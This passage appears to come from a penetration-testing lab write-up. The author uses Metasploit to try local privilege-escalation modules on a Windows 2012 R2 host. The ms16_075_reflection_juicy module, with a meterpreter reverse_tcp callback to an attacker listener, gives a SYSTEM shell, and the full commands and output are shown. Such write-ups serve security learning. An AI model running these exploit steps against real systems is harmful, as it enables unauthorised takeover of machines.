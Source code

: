 Hurm no luck. Moving on to `exploit/windows/local/bypassuac_sdclt`.

```
msf6 exploit(windows/local/bypassuac_dotnet_profiler) > use exploit/windows/local/bypassuac_sdclt
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_sdclt) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_sdclt) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/local/bypassuac_sdclt) > set LPORT 6666
LPORT => 6666
msf6 exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 10.0.200.2:6666 
[*] UAC is Enabled, checking level...
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```

No luck again. I skipped the other 2 and use `exploit/windows/local/ms16_075_reflection_juicy` because it said juicy?

```
msf6 exploit(windows/local/bypassuac_sdclt) > use exploit/windows/local/ms16_075_reflection_juicy
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set LHOST 10.0.200.2
LHOST => 10.0.200.2
msf6 exploit(windows/local/ms16_075_reflection_juicy) > set LPORT 6666
LPORT => 6666
msf6 exploit(windows/local/ms16_075_reflection_juicy) > run

[*] Started reverse TCP handler on 10.0.200.2:6666 
[+] Target appears to be vulnerable (Windows 2012 R2 (6.3 Build 9600).)
[*] Launching notepad to host the exploit...
[+] Process 3056 launched.
[*] Reflectively injecting the exploit DLL into 3056...
[*] Injecting exploit into 3056...
[*] Exploit injected. Injecting exploit configuration into 3056...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175174 bytes) to 192.168.240.80
[*] Meterpreter session 2 opened (10.0.200.2:6666 -> 192.168.240.80:57925) at 2020-11-22 02:19:16 +0800

meterpreter >
```

I'm in as `NT AUTHORITY\SYSTEM`.

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
